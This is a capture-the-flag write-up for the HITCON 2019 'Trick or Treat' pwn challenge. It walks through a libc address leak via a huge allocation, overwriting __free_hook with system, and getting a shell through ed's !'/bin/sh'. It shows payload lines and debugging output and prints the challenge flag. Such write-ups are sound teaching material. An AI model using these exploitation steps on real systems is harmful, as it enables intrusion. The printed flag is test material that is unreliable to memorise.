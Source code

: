# CTFhitcon2019

## Instructions

Run treat.py to run the local version. Run trick.py for the remote version.

## Summary
We overwrite __free_hook__ with __system__. Then invoke __free__, which is now __system__, and pass in the argument "ed" to open the ed editor which allows us to get shell via !'/bin/sh'

## In depth write up

The disassembly of the file is as follows:

![Disassembly of the file](ida.png)

When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0
```

The program starts by asking for an input size to send to var7 = malloc(size). From now on I will refer to var7 as *mValue*
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55a29a156260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output
Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0
Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt `Offset & Value:`
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example `mValue[offset] = value`
The program asks for Offset & Value twice.
The first Offset and Value we send is `(libc_offset+free_hook)/8` for the offset and `(libcBase+system)` for the value.
For the Offset, we add together __libc_offset__ and __free_hook__ and then divide the sum by 8. We do this because we are already starting at __Magic__ so we need to add __libc_offset__ to get to the __libcBase__. Then we add the offset of __free_hook__ so that we are pinpointing to the address of __free_hook__. We divide by 8 because *mValue* is a QUADWORD. This means that every *mValue* is equivalent to 8 bytes (64 bits). The Value is __libcBase__ plus the offset of __system__. This points towards the __system__ call. The payload is as follows `payload = "%x %x" % ((libc_offset+free_hook)/8,(libcBase+system))`
After sending this payload, we have succesfully overwritten the __free_hook__ call with the __system__ call.
For our second call we need to call __freee__ in order to invoke our newly placed __system__ call. We can achieve this by sending 1024 of an arbitrary character as the offset to invoke __free__. When __free__ is invoked the argument passed to it is the value that was supposed to be set at the offset of *mValue*. For example
```
mValue[1024] = value
                 v
          free(value)
```
With our altered code it now looks like this
```
mValue[1024] = value
                 v
        system(value)
```
So, we can send a value to system as an argument. However, this value can only consist of valid hex values such as 0123456789abcdef. By running the script hexcommands.py we get the output:
```
ed
dd
df
c99
cc
c89
bc
dc
```
The command of interest is the __ed__ command. This launches the [ed](https://linux.die.net/man/1/ed) text editor.
So, for our second Offset & Value input we use `payload = ('1'*1024+' '+'ed')`
Now that we are in the ed editor all we need to do is send the command `!'/bin/sh'`.
After that, we can CAT out the flag by doing `CAT /home/trick_or_treat/flag`
This gives us the flag `hitcon{T1is_i5_th3_c4ndy_for_yoU}`

